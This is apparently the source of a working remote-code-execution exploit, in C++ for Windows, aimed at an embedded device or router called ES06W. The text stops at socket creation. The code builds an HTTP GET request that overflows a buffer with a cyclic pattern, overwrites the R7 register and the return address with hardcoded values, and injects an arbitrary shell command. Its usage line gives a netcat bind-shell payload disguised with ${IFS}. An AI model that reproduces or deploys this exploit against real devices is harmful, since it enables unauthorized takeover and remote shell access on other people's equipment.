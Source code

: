 EXP：  
```
// ES06W-RCE.cpp :
//
#include "stdafx.h"
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <WinSock2.h>
#include <Windows.h>
 
 
 
#pragma comment(lib, "ws2_32.lib")
 
void ShowHelp()
{
    printf("[+]Usage: ES06W-RCE.exe [Command]\n");
    printf("[+]Example: ES06W-RCE.exe \"nc${IFS}-lp${IFS}4444${IFS}-e${IFS}/bin/sh\"\n");
}
 
 
int main(int argc, char** argv)
{
    WSADATA stcData = {};
    int int_ret = 0;
    char str_recv[0x1000] = {};
    char str_payload_final[0x1000] = {};
 
    //
    if (argc != 2) {
        ShowHelp();
        return 0;
    }
    //
    int_ret = WSAStartup(MAKEWORD(2, 2), &stcData);
    if (int_ret == SOCKET_ERROR) {
        printf("[-]Init Failed!\n");
        return 0;
    }
    //
 
    char str_payload[] = {
        "GET /aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHa"
        "IaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbib"
        "jbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTb"
        "UbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccd"
        "\xBC\x5F\xCB\x48"                    //Control R7
        "\x94\x02\xD5\x48"                    //Return Addr
        "%s"                                //Command
        " HTTP/1.1\r\n"       
        "Host: 192.168.0.1:8080\r\n"
        "Connection: keep-alive\r\n"
        "Upgrade-Insecure-Requests: 1\r\n"
        "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36\r\n"
        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n"
        "Accept-Encoding: gzip, deflate\r\n"
        "Accept-Language: zh-CN,zh;q=0.9\r\n\r\n\0"
    };
 
    sprintf_s(str_payload_final, 0x1000, str_payload, argv[1]);
 
    //
    SOCKET sock_client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
```